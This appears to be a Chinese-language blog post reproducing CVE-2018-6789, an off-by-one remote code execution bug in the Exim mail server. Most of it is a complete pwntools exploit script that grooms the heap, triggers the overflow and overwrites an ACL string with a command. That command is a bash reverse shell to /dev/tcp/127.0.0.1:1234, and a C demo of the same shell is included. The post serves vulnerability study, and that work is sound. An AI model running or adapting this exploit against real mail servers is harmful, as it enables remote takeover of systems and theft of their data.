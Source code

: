 ```yaml
---
layout: post
title:  "CVE-2018-6789：Exim Off-by-One漏洞复现分析"
date:   2018-04-09 11:30:00
categories: 漏洞分析
tags: [pwn]
---
```


<!-- more -->

### 分析环境


系统环境：Linux kali 4.13.0-kali1-amd64 #1 SMP Debian 4.13.13-1kali1 (2017-11-17) x86_64 GNU/Linux

编译环境：ldd (Debian GLIBC 2.25-3) 2.25

分析版本：

```
$ git clone https://github.com/Exim/exim.git
$ git checkout 38e3d2dff7982736f1e6833e06d4aab4652f337a
```

调试时下的断点：

```
b check_helo
b b64decode
b base64.c:214
b smtp_in.c:4746
b smtp_in.c:4993
b expand_string_internal at expand.c:5006 
b child_open_uid at child.c:395 
```

### 漏洞分析

关于漏洞的分析见参考文章，里面写的很详细了，本文主要是对复现过程进行记录。

由于编写的exp无法弹回shell，所以对命令执行的地方进行了跟踪：

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/2.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/3.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/4.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/6.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/7.jpg)

路径为：acl_check->acl_check_internal->expand_string->child_open->execv

最后会fork一个子进程来执行execv，类似下面的demo：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main()
{
    char *argv[10] = {0};
    argv[0] = "/bin/bash";
    argv[1] = "-c";
    argv[2] = "/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1";
    execv(argv[0],argv);
    return 0;
}

```

### exp 代码

```
from pwn import *
import time

def EHLO(r,hostname):  
    time.sleep(1)
    r.sendline("EHLO "+hostname)
    r.recvline()

def Sendline(r,info):
    time.sleep(1)
    r.sendline(info)
    r.recvline()

def AUTH(r,info):
    time.sleep(1)
    r.sendline("AUTH CRAM-MD5")
    r.recvline()
    time.sleep(1)
    r.sendline(info)
    r.recvline()

if __name__=='__main__':
    r = remote('localhost',25)
    command = "/bin/bash -c '/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1'"
   
#Step 1：进行内存布局

    Sendline(r,'\x7f'*4102) 
    #通过unrecognized command来获取一个0x4041的堆块

    EHLO(r,'c'*0x2010) 
    #通过sender_host_name 申请一个0x2021的堆块，同时释放上面0x4041的堆块

#Step 2：将位于底部的0x2021的堆块移到中间

    Sendline(r,'\x7f'*0x800) 
    #通过unrecognized command占用顶部0x2020的chunk

    EHLO(r,'c'*(0x2000-9)) 
    #使用EHLO释放之前的sender_host_name，然后重新设置，让sender_host_name位于0x6060大小chunk的中部

#Step 3：触发off by one漏洞

    payload1 = "HfHf"*0xaae

    AUTH(r,payload1[:-1]) 
    #将中间chunk的size由0x2021变成0x20f1

#Step 4:构造在第三块chunk中构造一个fake chunk

    payload = p64(0x1f31)+p64(0x20f0)
    payload1 = base64.b64encode(payload*484).replace("\n","")
    AUTH(r,payload1) 
    #绕过free检查，表明中间chunk的size是正确的

#Step 5:通过释放sender_host_name，把一个原本0x2000的chunk扩展成0x20f0, 但是却不触发smtp_reset

    time.sleep(1)
    EHLO(r,'a+')

#Step 6: 修改storeblock的next指针为储存acl_check_rcpt字符串的堆块地址（我的环境只有rcpt和data命令可用）

    time.sleep(1)
    payload = 'd'*(0x2000-0x20)
    address = 0x5582f18dd9a0 
    #包含acl_check_rcpt字符串的堆起始地址+0x10

    payload = base64.b64encode(payload+p64(0x2021)+p64(0x2021)+p64(address)+p64(0x2000)+p64(0x2000))
    #next指针后还要对chunk的size赋值，不然之后在free的时候会检查size大小，导致失败

    AUTH(r,payload)

#Step 7: 调用smtp_reset ->储存acl_check_rcpt字符串的堆块被释放丢入unsorted_bin

    EHLO(r,"crashed")

    time.sleep(1)

#Step 8:重新申请0x2020的堆块来覆盖acl_check_rcpt为要执行的命令（我的环境还多了一个0x2020的unsorted_bin，所以申请了两次，在第二次进行覆盖）

    payload = 'e'*0x2000 
    payload = base64.b64encode(payload)
    AUTH(r,payload)

    time.sleep(1)
    payload = 'f'*300+'\x20'+'f'*27 
    #对AUTH有空格判断，如果有空格就变成'0x00'，只会进行一次判断，所以在命令前还要加个空格，不然命令里的空格会被变成'0x00'导致失败。

    command = "${run{" + command + "}}\x00"
    payload += command
    payload += 'f'*(175-len(command)) + "/root/bin-tree/exim/var/spool/exim/log/%slog\x00" 
    #由于第一次覆盖把日志文件的名字覆盖了，又重新写入

    payload += 'f'*(0x2000-len(payload))
    payload = base64.b64encode(payload)
    AUTH(r,payload)

#Step9: 触发acl_check_rcpt检查

    time.sleep(1)

    Sendline(r,"mail from: <pluskid@zju.edu.cn>")

    time.sleep(1)

    Sendline(r,"RCPT TO: <pluskid@mstczju.org>")

    r.interactive()

```

不知道是不是我环境的原因，感觉比网上的文章描述的多了好多坑。。。

### 攻击效果

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/1.jpg)

最后攻击效果虽然在进程里起了bash，但是并没有弹回来shell，应该和我本地的环境有关，touch命令倒是执行成功了，调试发现，起了bash后，exim进程又把它kill了，很奇怪。

该exp也没有对随机化进行绕过，网上公开的资料都是对地址进行爆破。

### 参考链接

https://paper.seebug.org/469/

https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py


